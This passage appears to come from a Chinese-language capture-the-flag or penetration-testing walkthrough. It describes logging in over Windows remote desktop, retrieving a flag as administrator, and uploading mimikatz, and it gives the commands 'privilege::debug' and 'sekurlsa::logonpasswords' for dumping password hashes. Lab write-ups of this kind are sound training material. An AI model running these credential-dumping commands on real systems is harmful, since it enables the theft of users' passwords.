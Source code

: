 windows 设定规则 `mstsc`单个

[![](assets/1709193375-d8b80472a2c5e6f5af14d82881398040.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205054-d7f8394e-d56e-1.png)

链接，在管理员命令行获取 flag2

[![](assets/1709193375-391c122e1c74d583bce49a567bcd32b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205057-da41dbc4-d56e-1.png)

下面，我们进一步去提取密码信息

### mimikatz 提取密码

上传一个`mimikatz`获取密码 hash  
命令，注意这里要用管理员运行

```bash
privilege::debug
sekurlsa::logonpasswords
```
